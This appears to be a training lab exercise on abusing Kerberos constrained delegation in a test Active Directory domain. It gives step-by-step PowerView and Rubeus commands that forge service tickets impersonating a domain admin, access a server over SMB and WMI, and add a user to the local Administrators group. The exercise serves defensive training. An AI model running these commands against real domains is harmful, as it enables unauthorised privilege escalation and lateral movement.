 # Exercise 4 - Kerberos Classic Delegation

## Tools

You can find all tools needed in the ["attacker-tools.zip"-file](../exercises/attacker-tools). The links below are for your own reference.

Tools needed:

- PowerView: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- Rubeus: [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

## Exercise

In this exercise, we'll abuse the constrained delegation permission of the user "taskservice" to get access to adsec-01. 

Open powershell with admin rights (right-click "Run as Administrator") and load rubeus/powerview.

```
cd C:\attacker-tools
cat -raw .\PowerView.ps1 | iex
cat -raw .\Invoke-Rubeus.ps1 | iex
```

Find users that are enabled for constrained delegation.

```
Get-DomainUser -TrustedToAuth
```

Show the allowed delegation targets.

```
Get-DomainUser -TrustedToAuth | select -ExpandProperty msds-allowedtodelegateto
```

Luckily, we know the password of user taskservice. First, we generate the AES keys, which we need in the next steps.

```
Invoke-Rubeus -Command "hash /password:Amsterdam2015 /domain:contoso.com /user:taskservice"
```

Rubeus allows us to start powershell in a new logon session. This implies that the tickets we forge only exist in this logon session and do not interfere with the already existing kerboers tickets of user john. 

```
Invoke-Rubeus -Command "createnetonly /program:C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe /show"
```

Remember, execute the commands below in the powershell you just started with rubeus!

```
cd C:\attacker-tools
cat -raw .\Invoke-Rubeus.ps1 | iex
```

First, we use s4u to request a TGS impersonating the domain admin user "Bruce Willis" (bwillis) against adsec-01. We request 3 tickets for 3 different services. "CIFS" will be used for SMB access and "HOST"/"RPCSS" are needed for WMI.

```
Invoke-Rubeus -Command "s4u /user:taskservice /aes256:390F5466C4FCCB8A04955838C3890D067050B3035886ED97D8D96912E8E70C01 /impersonateuser:bwillis /msdsspn:cifs/adsec-01.contoso.com /ptt"
Invoke-Rubeus -Command "s4u /user:taskservice /aes256:390F5466C4FCCB8A04955838C3890D067050B3035886ED97D8D96912E8E70C01 /impersonateuser:bwillis /msdsspn:host/adsec-01.contoso.com /ptt"
Invoke-Rubeus -Command "s4u /user:taskservice /aes256:390F5466C4FCCB8A04955838C3890D067050B3035886ED97D8D96912E8E70C01 /impersonateuser:bwillis /msdsspn:rpcss/adsec-01.contoso.com /ptt"
```

Have a look at the kerberos tickets you just created by running klist.

```
klist
```

Let's see if that worked. Try to access the server through SMB.

```
ls \\adsec-01.contoso.com\C$
```

Now try to access the server through WMI. Note: the command below queries the WMI class win32_process, which basically means: list all running processes. This is similar to running "ps" in a terminal.

```
Get-WmiObject -Class win32_process -ComputerName adsec-01.contoso.com
```


# Questions
- In the exercise above, you acquired read access on the server adsec-01 through SMB and WMI. Now try to get code execution through these two protocols. The goal is to execute the following command, which will add the user john to the local admin group:
    - "net localgroup Administrators john /ADD"
- Demonstrate a way to achieve this with SMB as well as with WMI. `Hint:` we already used a tool for remote management that relies on SMB in the PTH exercise and Powershell contains a native command for invoking WMI methods.
- Try to impersonate the domain admin user "Chuck Norris" instead of "Bruce Willis". Does it work? Explain why.
